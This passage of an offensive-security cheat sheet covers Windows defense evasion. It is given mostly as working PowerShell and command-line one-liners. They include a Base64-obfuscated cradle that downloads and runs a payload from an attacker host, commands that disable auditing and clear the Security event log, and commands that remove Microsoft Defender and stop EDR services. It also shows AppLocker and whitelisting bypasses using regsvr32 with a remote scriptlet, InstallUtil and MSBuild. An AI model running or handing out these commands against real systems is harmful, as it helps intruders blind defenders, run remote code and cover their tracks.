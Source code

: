 #### 6.5 Obfuscate PowerShell Commands&#x20;

* **Obfuscate Commands Using Base64 Encoding**:

```powershell
$Command = "IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>:<attack_port>/payload.ps1')"
$EncodedCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Command))
powershell.exe -EncodedCommand $EncodedCommand
```

#### 6.6 Tamper with Event Logs&#x20;

* **Disable Auditing Temporarily**:

```powershell
auditpol /set /subcategory:"Logon" /success:disable /failure:disable
```

* **Clear Specific Event Log Entries**:

```powershell
wevtutil cl Security
```

#### 6.7 Remove or Disable Antivirus/EDR&#x20;

* **Remove Microsoft Defender Antivirus**:

```powershell
Remove-WindowsFeature -Name Windows-Defender-Features
```

* **Disable EDR Tools**:

```powershell
Stop-Service -Name "EDRServiceName" -Force
```

#### 6.8 Bypass AppLocker&#x20;

* **Use regsvr32 to Bypass AppLocker**:

```powershell
regsvr32 /s /n /u /i:http://<attack_ip>/script.sct scrobj.dll
```

* **Use InstallUtil to Bypass AppLocker**:

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\payload.dll
```

#### 6.9 Bypass Application Whitelisting via MSBuild&#x20;

* **Use MSBuild to Bypass Application Whitelisting**:

```powershell
msbuild.exe C:\Windows\Temp\payload.xml
```
